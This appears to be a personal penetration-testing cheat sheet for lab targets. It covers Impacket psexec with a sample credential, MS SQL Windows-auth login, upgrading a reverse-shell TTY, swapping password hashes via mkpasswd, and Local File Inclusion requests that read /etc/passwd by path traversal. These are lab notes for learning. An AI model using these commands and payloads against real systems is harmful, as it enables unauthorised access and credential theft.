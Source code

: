 
### Impacket Psexec.py
- useful if smb is enabled and ADMIN$ is writable
- `psexec.py 'administrator:4dD!5}x/re8]FBuZ@10.129.96.157'`
- `psexec.py 'username:password@target'


### MS SQL
- impacket mssqlclient.py
	- connect to ms sql instances
	- If you have windows creds (from a service account or something), use `-windows-auth` switch
	- `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth


### Cookies
- cookies stored under firefox > inspect > storage
- do not reload page after making changes


### Shell Python
- to enable a fully functional shell after launching a reverse webshell, use

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Create file and add content in one command
```bash
touch yourfile.txt && echo "Your content goes here" > yourfile.txt
```



### mkpasswd
- used to make passwords, using specific algorithms.
- Good for if you can't crack a password, but you can replace it with one that is hashed in the same way
- or even use the site https://www.mkpasswd.net/
- https://github.com/s3fxn/mkpassword

```bash
mkpasswd -m sha-512 Password1234
```


### Local File Inclusion
- potentially available if you see a url as http://10.129.95.185/?file=home.php#
- Try things like changing the file={some_file}
	- You can try and find other php files to run, like http://10.129.95.185/?file=registration.php#
	- Or you can try to load local files like /etc/passwd http://10.129.95.185/?file=/etc/passwd
- Don't forget to utilize curl if you want to work inside the cli
- if current working directory is utilized by the website, you may have to traverse the files paths to identify which is correct. ../../../etc/passwd
	-  http://10.129.95.185/?file=../../../etc/passwd
- don't forget that if you can get this working and can upload a script of your own, you can use the LFI exploit to launch the script
